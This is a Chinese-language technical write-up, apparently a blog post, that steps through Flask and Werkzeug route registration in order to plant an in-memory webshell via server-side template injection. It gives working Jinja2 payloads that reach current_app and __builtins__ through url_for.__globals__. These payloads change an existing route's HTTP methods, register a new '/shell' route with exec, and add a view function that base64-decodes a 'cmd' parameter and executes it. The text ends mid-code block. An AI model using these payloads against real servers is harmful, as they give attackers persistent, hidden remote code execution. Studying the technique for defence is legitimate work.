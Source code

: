 同样在校验后来到这个函数里。就是一些属性的设置，比如添加默认的一些请求方式。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1718130216940-f9d8c833-e3c0-44dd-9d85-420aec7d34f4.png#averageHue=%231f2228&clientId=uc11acaa6-eb2c-4&from=paste&height=600&id=u63772f68&originHeight=750&originWidth=1006&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=118607&status=done&style=none&taskId=ue88e662b-1018-4de4-8682-436061675b3&title=&width=804.8)
这个时候将路由实例化为了`werkzeug.routing.rules.Rule`对象，后续就是将这个路由对象添加到 Flask 应用上下文的变量中，这些变量（属性）会在后面用来确定路由和视图函数、端点的对应关系。这个路由对象里没有什么特殊的操作，基本就是各种属性设置了。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1718130333652-a447b6a2-3ca6-4a7f-88d9-35ef3b213913.png#averageHue=%23272a30&clientId=uc11acaa6-eb2c-4&from=paste&height=643&id=uc4b5a368&originHeight=804&originWidth=1140&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=109170&status=done&style=none&taskId=u66dd6867-0d76-46b7-936b-528662a5042&title=&width=912)
单步步过到`self.url_map.add(rule)`这里，`url_map`是`werkzeug.routing.map.Map`对象，这里由于是补充内容忘记提了，`url_map` 在 Flask 应用上下文中还表示路由和端点的对应关系，下文中有说明补充。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1718130957213-68832342-a44a-43d7-877d-939b7ff625f2.png#averageHue=%23ecf0f3&clientId=uc11acaa6-eb2c-4&from=paste&height=291&id=u3d708154&originHeight=364&originWidth=1482&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=89226&status=done&style=none&taskId=ud388c472-ce52-4654-98dd-82d18ac2a29&title=&width=1185.6)
这里调用了`werkzeug.routing.map.Map.add()`方法，其实最终就是操作了`_rules_by_endpoint`这个数据结构，以端点名作为键，键值为一个路由类的列表。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1718131098660-266adc2a-7a21-4e37-bc9a-a4693774171d.png#averageHue=%2320242c&clientId=uc11acaa6-eb2c-4&from=paste&height=268&id=uec108623&originHeight=335&originWidth=1366&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=67727&status=done&style=none&taskId=u08883d83-bfdd-425b-9a10-acd63293a9c&title=&width=1092.8)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1718131224545-0f30ee2d-a80b-4653-ab36-49ef17d1845f.png#averageHue=%23eceff3&clientId=uc11acaa6-eb2c-4&from=paste&height=297&id=ua5128296&originHeight=371&originWidth=1509&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=99912&status=done&style=none&taskId=u4a25a547-0321-45e3-b44a-8f83aa774b7&title=&width=1207.2)
可以看到请求方法的定义是在路由类中实现的，这里看到的形如`'my_view': [<Rule '/nonono' (GET, HEAD, OPTIONS) -> my_view>]`的键值对，这个键值是在路由类中使用了工厂类的迭代器得到的，没有继续跟下去的必要了，反正目前拿到了这个数据结构的位置，就尝试去修改一下，由于是一个迭代得到的需要参考工厂类的实现来做。
现在要修改`/nonono`的请求方法，端点为`my_view`，查看一下这个类里的属性，这样可以避免直接进入到工厂类去跟。这里有一个`methods`属性，是一个集合。
```python
{{ url_for.__globals__['current_app'].url_map._rules_by_endpoint.my_view[0].__dict__ }}
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1718131678954-75121415-d974-441d-8ec6-a9e1d24d516d.png#averageHue=%23ebeef3&clientId=uc11acaa6-eb2c-4&from=paste&height=461&id=ue0ddd01e&originHeight=576&originWidth=1500&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=171284&status=done&style=none&taskId=uf834f0ac-79b9-4379-9b0d-3c38b8a50a3&title=&width=1200)
往集合添加一个`POST`再看看，就已经可以对路由进行`POST`请求了。下面的内容中没有提到这一点，所以可以参考这个来修改。
```python
{{ url_for.__globals__['current_app'].url_map._rules_by_endpoint.my_view[0].methods.add('POST') }}

# url_for.__globals__['current_app'].url_map._rules_by_endpoint.端点名/视图函数名[0].methods.add('POST')
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1718131838679-e5551532-b877-4722-bca9-aa80280ecebc.png#averageHue=%23acdad9&clientId=uc11acaa6-eb2c-4&from=paste&height=205&id=u8b490a6b&originHeight=256&originWidth=1516&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=50493&status=done&style=none&taskId=ua46705fc-6087-43d3-8c60-e6ab86d9962&title=&width=1212.8)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1718131870630-e1061b70-6acd-43ff-826d-92f148b71841.png#averageHue=%2381b28f&clientId=uc11acaa6-eb2c-4&from=paste&height=233&id=u3510f0dd&originHeight=291&originWidth=1504&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=61380&status=done&style=none&taskId=u69d2875f-b76b-41de-927b-25fc073c359&title=&width=1203.2)

---

对于执行结果，Python 中 `eval` 函数有返回值，但是只能执行单行代码，`exec` 函数可以执行多行代码，但是返回值永远为空。Flask 在遇到视图函数返回值为空的时候会直接抛出异常。对于实现内存马来说我们需要的还是代码执行而不光是一个 cmdshell。
如果需要执行多行代码并且返回结果的话，一种是不使用 lambda 函数作为视图函数，这需要我们在 SSTI 漏洞利用的时候使用 `exec` 函数，这样可以直接写上需要的函数作为视图函数。
```python
{{ url_for.__globals__['__builtins__']['exec'](
"
def my_func():
    data = 'hello'
    return data
app.view_functions['shell'] = my_func;
app._got_first_request=False;
app.add_url_rule('/shell', 'shell', my_func, methods=['POST','GET']);
app._got_first_request=True;
", 
{'request':url_for.__globals__['request'], 'app':url_for.__globals__['current_app']})}}
```
或者将函数编码后，使用 `exec` 执行定义函数的部分，这样视图函数（内存马）也就注册了。
比如下面这个`my_func`函数就是内存马部分：接收一个`cmd`作为执行的 Payload，在使用`exec`函数的时候可以为其执行代码传递`globals`命名空间对应`parma`，`parma['resp']`就是获取执行的 Payload 结果。
```python
def my_func():
    import base64
    parma = {'resp': None}
    if 'cmd' in request.values:
        p_code = base64.b64decode(request.values['cmd'])
        exec(p_code, parma)
    return parma['resp']
```
那么 Payload 就可以像编写 py 脚本一样了，尽量使用自带库完成，将结果放到 `resp`中。
```python
import os
def cmd_run():
```